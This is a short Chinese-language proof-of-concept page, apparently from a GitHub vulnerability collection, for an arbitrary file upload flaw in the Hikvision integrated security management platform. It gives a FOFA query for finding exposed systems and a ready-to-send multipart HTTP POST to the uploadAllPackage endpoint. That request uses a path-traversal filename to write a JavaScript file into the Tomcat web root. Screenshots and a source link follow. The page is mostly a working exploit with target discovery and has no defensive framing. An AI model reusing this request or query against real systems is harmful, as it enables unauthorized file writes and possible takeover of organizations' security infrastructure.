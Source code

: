 # 海康威视综合安防管理平台uploadAllPackage任意文件上传漏洞



## fofa

```yaml
app="HIKVISION-综合安防管理平台"
```

## poc

```yaml
POST /center_install/picUploadService/v1/uploadAllPackage/image HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: */*
Host: 192.168.52.228:8001
Accept-Encoding: gzip, deflate
Connection: close
Token: SElLIGlhL3NmaGNjaTY3WWxWK0Y6UzVCcjg1a2N1dENqVUNIOUM3SE1GamNkN2dnTE1BN1dGTDJldFE0UXFvbz0=
Content-Type: multipart/form-data; boundary=--------------------------553898708333958420021355
Content-Length: 233

----------------------------553898708333958420021355
Content-Disposition: form-data; name="sendfile"; filename="../../../../components/tomcat85linux64.1/webapps/eportal/y4.js"
Content-Type: application/octet-stream

expzhizhuo
----------------------------553898708333958420021355--
```

![image-20240803161009171](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202408031610248.png)

![image-20240803161031683](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202408031610764.png)

## 漏洞来源

- https://mp.weixin.qq.com/s/hYEg8jKyBHNV-wFGcuvGbw